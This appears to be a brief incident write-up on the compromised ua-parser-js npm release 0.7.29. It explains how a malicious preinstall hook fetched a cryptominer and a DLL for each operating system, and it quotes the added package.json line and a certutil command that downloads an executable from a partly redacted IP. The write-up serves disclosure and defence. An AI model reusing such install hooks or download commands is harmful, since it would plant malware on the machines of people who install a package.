 # ua-parser-vuln

Package.json has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added, to call the new attack scripts.
preinstall.js looks to see Windows, mac, linux, and call the correct file

On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing.

Else, it pulls down  jsextention from a remote IP in the Latvia GEO

**If Windows:**
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945
